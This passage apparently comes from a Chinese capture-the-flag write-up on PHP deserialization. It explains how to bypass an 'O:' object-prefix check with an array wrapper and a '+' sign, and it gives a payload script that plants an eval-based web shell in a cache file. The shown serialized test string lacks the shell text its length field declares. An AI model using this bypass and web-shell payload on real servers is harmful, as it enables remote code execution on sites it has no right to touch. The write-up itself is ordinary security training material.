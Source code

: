 ```php
      $this->template,
      htmlspecialchars($data['name'])
    );
  }

  public function __destruct() {
    $this->createCache();
  }
}

new Template($_COOKIE['data']);
```

- 题解

**在loadData函数中使用到了unserialize反序列化方法，对传进来的$data进行了反序列化，最后对Template进行了实例化，将COOKIE中的data进行了反序列化。**

```php
if (substr($data, 0, 2) !== 'O:'
      && !preg_match('/O:\d:\/', $data))
```
**代码对data进行了判断，不可以为对象，0:X，X不可以为数字，绕过方法可以使用array数组绕过第一个，在X前面加+绕过第二个限制，搭达到到达反序列化方法的步骤。在__destruct销毁时会调用createCache方法写入文件，达成目的。**

- payload

```php
<?php

class Template{
	
	public $cacheFile = './test.php';
	public $template = '<?php eval($_POST[xx])>';
}


$temp= new Template();
$test = Array($temp);
print(serialize($test));

?>
```

- 测试

```
a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:26:"";}}
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200512133601.png)

### Typecho-1.1

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200512134011.png)
